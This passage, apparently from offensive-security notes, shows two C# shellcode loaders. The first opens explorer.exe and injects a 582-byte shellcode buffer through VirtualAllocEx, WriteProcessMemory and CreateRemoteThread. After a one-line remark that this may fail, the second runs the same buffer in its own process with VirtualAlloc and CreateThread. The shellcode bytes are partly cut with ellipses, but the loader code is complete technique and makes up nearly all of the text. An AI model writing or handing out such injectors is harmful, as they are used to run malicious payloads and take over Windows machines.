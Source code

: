 ```dotnetcli
       byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
       lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
       dwCreationFlags, IntPtr lpThreadId);
        static void Main(string[] args)
        {
            Process[] localByName = Process.GetProcessesByName("explorer");
            Console.WriteLine(localByName);
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, localByName[0].Id);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            byte[] buf = new byte[582] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
                0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
                ...0x89,0xda,0xff,0xd5 };
            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr,IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```

shellcode injector might not work because of the fact that explorer.exe might be running with system so we will put a simpler program

```dotnetcli
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;
namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
       flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
       IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32
       dwMilliseconds);
        static void Main(string[] args)
        {
            byte[] buf = new byte[582] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
                ...,0x0a,0x41,0x89,0xda,0xff,0xd5 };
            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0,
IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```